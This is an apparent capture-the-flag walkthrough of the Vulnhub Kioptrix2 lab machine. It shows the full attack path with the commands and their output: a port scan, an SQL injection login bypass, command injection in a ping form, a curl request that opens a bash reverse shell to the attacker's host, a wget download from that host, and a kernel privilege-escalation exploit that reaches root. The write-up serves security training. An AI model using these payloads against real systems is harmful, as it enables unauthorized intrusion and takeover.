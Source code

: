 ```yaml
---
title: Vulnhub Kioptrix2 Walkthrough
categories:
- Vulnhub
tags: []
image:
  path: "/assets/images/kioptrix2/kio2.png"
  alt: Kioptrix2
---
```


# Recon
## Nmap

Running `nmap` on the box ip reveals `6` open ports :

```bash

nmap -sC -sV -p- 192.168.1.21 --min-rate 10000 

Nmap scan report for 192.168.1.21 (192.168.1.21)
Host is up (0.38s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
|_http-title: 403 Forbidden
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
3306/tcp open  mysql    MySQL (unauthorized)

```

I'll sort them :

* `80`   http 
* `22`   ssh      
* `111`   rpcbind  
* `443`   ssl/http Apache httpd 2.0.52 ((CentOS))
* `631`    ipp      CUPS 1.1
* `3306`  mysql

## Port 80
Navigating to port 80 we see a login panel , my first hunch is to bypass the authentication and one way to do that is by sql injection :

Throwing a simple payload like `admin ' and 1=1 -- -` lead us to bypass the authetication and land on an Administrative Web Console where you can use ping command .


### Remote Code Execution
Seeing the ping command , our first try is to see if we can abuse that fonctionnality to run other commands by appending it to `ping` .

by typing this in the box : `127.0.0.1;id`

we got code execution :

```bash

127.0.0.1;id
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.090 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.072 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.087 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.072/0.083/0.090/0.007 ms, pipe 2
uid=48(apache) gid=48(apache) groups=48(apache)
```
we can use curl to view the output clearly :


```bash

curl -s -k -X 'POST' -H 'Host: 192.168.5.254' --data-binary 'ip=127.0.0.1;id&submit=submit' 'http://192.168.5.254/pingit.php'
127.0.0.1;id<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.064 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.041 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.044 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.041/0.049/0.064/0.013 ms, pipe 2
uid=48(apache) gid=48(apache) groups=48(apache)

```
## Shell as Apache 

we run our last `curl `command but this time i use a reverse shell instead of `id` command 

```bash
 ⚡ root@kali  ~  curl -s -k -X 'POST' -H 'Host: 192.168.5.254' --data-binary 'ip=127.0.0.1;bash+-i+>%26+/dev/tcp/192.168.5.214/4444+0>%261&submit=submit' 'http://192.168.5.254/pingit.php'


```
And on another tab i launch `nc` :

```bash

 ⚡ root@kali  ~  nc -lvp 4444                                            
listening on [any] 4444 ...
192.168.5.254: inverse host lookup failed: Unknown host
connect to [192.168.5.214] from (UNKNOWN) [192.168.5.254] 32769
bash: no job control in this shell
bash-3.00$ 


```
I'll use my upgrade my shell commands :

```bash

python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
export PATH=/usr/local/sbin:/usr/local/bin:/usr/bin:/usr/sbin:/sbin:/bin:/usr/games:/tmp
alias ll='clear;ls -lsaht --color=auto'
Ctrl+z

stty raw -echo ;fg;reset 
stty columns 200 rows 116

```

## Privesc 
We will use a kernel exploit to privesc to `root` , because other methods to privesc didn't yields any results 

we use those three commands to get the kernel and exact OS version : it's a `Centos 4.5` with `kernel 2.6.9-55 ` linux

```bash

bash-3.00$ file /bin/bash
/bin/bash: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), stripped

bash-3.00$ cat /etc/*-release 
CentOS release 4.5 (Final)

bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux

```
Using `searchsploit` we got a match : 

```bash
searchsploit linux kernel 2 centos 4.5 local
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                       |  Path
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_sendpage()' Ring0 Privilege Escalation (5 | linux/local/9479.c
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1) | linux_x86/local/9542.c
Linux Kernel 3.14.5 (CentOS 7 / RHEL) - 'libfutex' Local Privilege Escalation                                                        | linux/local/35370.c
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

I will copy it to my working directory 

```bash
searchsploit -m linux_x86/local/9542.c                       
  Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
      URL: https://www.exploit-db.com/exploits/9542
     Path: /usr/share/exploitdb/exploits/linux_x86/local/9542.c
    Codes: CVE-2009-2698
 Verified: True
File Type: C source, ASCII text
Copied to: /oscp/Vulnhub/kioptrix2/9542.c


```

and use `updog ` to launch an Http server for transfer , and on the box i use `wget` to get the file 

```bash

bash-3.00$ wget http://192.168.1.20:9090/9542.c
--14:38:12--  http://192.168.1.20:9090/9542.c
           => `9542.c'
Connecting to 192.168.1.20:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,535 (2.5K) [text/x-csrc]

 0% [                                                                                                                                                             ] 0  100%[============================================================================================================================================================>] 2,535         --.--K/s             

14:38:12 (2.92 MB/s) - `9542.c' saved [2535/2535]


```
I'll run `gcc ` to compile it  and lo and behold we are `root `:

```bash
bash-3.00$ gcc 9542.c -o 9542
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ls
9542  9542.c
bash-3.00$ ./9542
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00# 


```
